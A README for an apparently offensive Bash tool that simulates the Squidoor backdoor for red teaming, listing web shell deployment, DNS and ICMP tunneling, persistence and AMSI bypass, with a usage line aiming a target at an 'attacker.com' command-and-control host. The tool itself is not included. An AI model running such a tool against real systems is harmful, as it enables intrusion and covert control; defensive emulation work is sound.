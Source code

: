 # Squidoor Simulator

A comprehensive Bash script that simulates advanced adversary behaviors inspired by the Squidoor backdoor, as documented by Unit 42. This tool is designed for penetration testing, red teaming, and validating cyber defense mechanisms.

## Features

- **Initial Access**
  - IIS vulnerability exploitation
  - Web shell deployment (ASPX)
  - Multiple persistence mechanisms

- **Command and Control**
  - Outlook API communication
  - DNS tunneling
  - ICMP tunneling
  - Encrypted communication channels

- **Persistence Mechanisms**
  - Registry modifications
  - Scheduled tasks
  - WMI event subscriptions

- **Evasion Techniques**
  - AMSI bypass
  - Payload obfuscation
  - Encrypted communication

## Requirements

- Bash 5.0 or higher
- Root privileges (recommended)
- Required tools:
  - dnscat2
  - icmpsh
  - impacket
  - metasploit-framework
  - yq

## Installation

1. Clone the repository:
```bash
git clone https://github.com/yourusername/squidoor-simulator.git
cd squidoor-simulator
```

2. Make the script executable:
```bash
chmod +x squidoor_simulator.sh
```

3. Install dependencies:
```bash
# The script will automatically check and prompt to install missing dependencies
./squidoor_simulator.sh -h
```

## Usage

Basic usage:
```bash
./squidoor_simulator.sh -t <target> -c <c2-server> -p <protocol>
```

Options:
- `-t, --target`: Target IP address or hostname
- `-c, --c2-server`: Command and Control server address
- `-p, --protocol`: C2 protocol (outlook|dns|icmp)
- `-h, --help`: Show help message

Example:
```bash
./squidoor_simulator.sh -t 192.168.1.100 -c attacker.com -p outlook
```

## Configuration

The script uses a YAML configuration file (`config.yaml`) for detailed settings. A default configuration will be created if none exists.

Configuration options include:
- Target settings
- C2 server details
- Web shell configuration
- Persistence mechanisms
- Evasion techniques

## Output

The script generates:
- Detailed logs in `squidoor.log`
- Simulation report in `squidoor_report_[timestamp].txt`
- Temporary files in `/tmp/squidoor/`

## Security Notice

This tool is for educational and testing purposes only. Use only on systems you own or have explicit permission to test. Unauthorized use may be illegal.

## License

MIT License - See LICENSE file for details

## Acknowledgments

- Unit 42 for their analysis of the Squidoor backdoor
- The security research community for their contributions to understanding advanced adversary behaviors 